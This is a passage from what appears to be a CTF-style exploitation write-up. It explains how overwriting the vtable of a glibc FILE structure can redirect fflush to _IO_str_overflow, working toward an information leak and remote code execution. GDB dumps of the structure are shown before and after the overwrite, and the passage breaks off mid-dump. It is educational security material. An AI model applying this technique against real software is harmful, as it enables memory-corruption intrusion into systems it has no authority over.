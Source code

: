 ### Initializing our structure

So, considering the fact we can overwrite `vtable` filed in our `FILE` structure, we can start to think of the ways to gain RCE. First things first, we need to get information leak, because we don't know neither binary's base, nor libc's. Here we're bumping into our first obstacle: our `FILE` structure is completely empty.

> GDB view of our structure

```p
$1 = {
  file = {
    _flags = -72539000,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x0,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7fc25c0 <_IO_2_1_stderr_>,
    _fileno = 3,
    _flags2 = 0,
    _old_offset = 0,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x55555555a380,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x55555555a390,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7fbe4a0 <_IO_file_jumps>
}
```
We'll use `_IO_str_overflow`, which initializes all of the `_IO_read...` and `_IO_write...` ptrs in out structure to fix this. You'll have to take my word for it, cause it'd take to much time to walk you through this. However it gets even trickier, because we can't determine one nible, set by ASLR (`0x?518`), so our final exploit will have `1/16` chance of success.

After overwriting `vtable` of our `FILE` structre so that `fflush` would call `_IO_str_overflow` instead of `_IO_new_file_sync` we get
```
$3 = {
  file = {
    _flags = 0,
    _IO_read_ptr = 0x5647136dd480 "x",
    _IO_read_end = 0x5647136dd481 "",
    _IO_read_base = 0x5647136dd480 "x",
    _IO_write_base = 0x5647136dd480 "x",
    _IO_write_ptr = 0x5647136dd481 "",
    _IO_write_end = 0x5647136dd4e4 "",
    _IO_buf_base = 0x5647136dd480 "x",
    _IO_buf_end = 0x5647136dd4e4 "",
    _IO_save_base = 0x0,
```